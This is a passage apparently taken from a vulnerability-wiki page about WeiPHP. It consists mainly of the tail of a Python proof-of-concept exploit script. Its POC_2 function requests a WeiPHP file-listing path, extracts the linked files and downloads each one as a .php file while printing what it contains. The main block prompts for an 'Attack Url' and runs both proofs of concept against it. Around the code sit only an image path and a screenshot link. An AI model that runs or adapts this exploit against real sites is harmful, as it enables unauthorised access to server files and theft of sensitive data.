 ```python
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_2(target_url):
    vnln_url = target_url + "/public/index.php/home/file/user_pics"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vnln_url, headers=headers).text
        href = re.findall(r'<img src="(.*?)"', response)
        for i in href:
            print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
            data = requests.get(url=i, headers=headers)
            path = str(random.randint(1,999)) + '.php'
            with open(path, 'wb') as f:
                f.write(data.content)
                print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
    except:
            print("\033[31m[x] 获取文件名失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
    image_url = POC_2(target_url)
```

![](http://wikioss.peiqi.tech/vuln/weiphp-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
